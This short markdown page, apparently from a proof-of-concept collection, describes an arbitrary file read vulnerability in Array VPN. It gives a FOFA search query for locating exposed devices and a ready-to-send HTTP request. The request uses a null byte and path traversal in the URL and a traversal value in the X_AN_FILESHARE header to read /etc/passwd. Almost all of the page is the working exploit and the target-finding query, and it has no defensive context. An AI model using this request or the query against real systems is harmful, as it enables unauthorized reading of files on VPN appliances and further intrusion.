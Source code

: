 ## Array VPN任意文件读取漏洞

## fofa
```
product="Array-VPN"
```
![image](https://github.com/user-attachments/assets/5269e650-7552-4fb0-8622-965edd0b8d83)
![image](https://github.com/user-attachments/assets/51e975c1-87a8-44a0-8d60-284a67195451)


## poc
```
GET /prx/000/http/localhost/client_sec/%00../../../addfolder HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X_AN_FILESHARE: uname=t; password=t; sp_uname=t; flags=c3248;fshare_template=../../../../../../../../etc/passwd
Dnt: 1
Upgrade-Insecure-Requests: 1
Connection: close

```
![image](https://github.com/wy876/POC/assets/139549762/a6915f3f-2242-4d1d-b3a3-9ff452439cbc)
